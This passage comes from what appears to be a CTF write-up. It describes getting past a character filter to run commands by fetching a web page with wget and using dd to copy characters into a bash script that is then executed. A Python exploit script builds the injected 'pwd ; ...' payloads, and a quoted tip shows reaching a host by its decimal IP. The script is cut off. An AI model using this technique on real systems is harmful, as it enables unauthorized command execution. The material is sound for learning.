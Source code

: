 So subdomains and subdirectories are a no-go. We actually need a full domain
like `google.com` or `hitcon.org`.

**Note**: adikso from IRC gave me some feedback on this write-up and told me a
method to bypass this. If only I had thought of this before 😩
> If you don't have the domain you could convert the ip address to its decimal
> format https://www.ipaddressguide.com/ip and then just `wget 16843009`

Since I assumed that we needed a proper domain, I asked around on my team, but
nobody owned a domain that I could use.
I was stumped here for a while before I came up with a stupid idea:
- Download some HTML page like `hitcon.org`
- Since it's HTML, it'll contain characters like `- / < >`
- Use `dd` to copy the desired characters one-by-one into a bash script
- Execute the script

At this point I was vaguely aware that I was stumbling upon an extremely
roundabout solution and that the intended solution was probably much simpler.
But I didn't have the creativity nor the experience to come up with it, so
I continued on. It took me several hours, but I eventually came up with a working
solution:

```python
import pwn
import sys
import subprocess
import os.path

assert len(sys.argv) >= 2
cmd = sys.argv[1]  # The command we want to execute (will be saved to file)

url = 'hitcon.org'
wget = 'wget {}'.format(url)

if os.path.isfile('index.html'):
    os.remove('index.html')

print(subprocess.check_output(wget, shell=True).decode())

# Need to split into bytes to ensure multi-byte chars are handled correctly
fin = bytearray(open('index.html').read().encode())

payloads = [
    'pwd ; rm index.html',
    'pwd ; rm payload',
    'pwd ; {}'.format(wget)
]

# bs=1 -> blocksize = 1 byte
# count=1 -> transfer 1 block
# skip -> offset of the input file to read from
# seek -> offset of the output file to write to
fstr = 'pwd ; dd if=index.html of=payload bs=1 count=1 skip={} seek={}'

for i, c in enumerate(cmd):
    pos = fin.find(c.encode())
    if pos == -1:
        raise ValueError('char `{}` not found'.format(c))
    payloads.append(fstr.format(pos, i))

payloads.append('pwd ; bash payload')

p = '\n'.join(payloads)
print(p)

if len(sys.argv) >= 3:
```
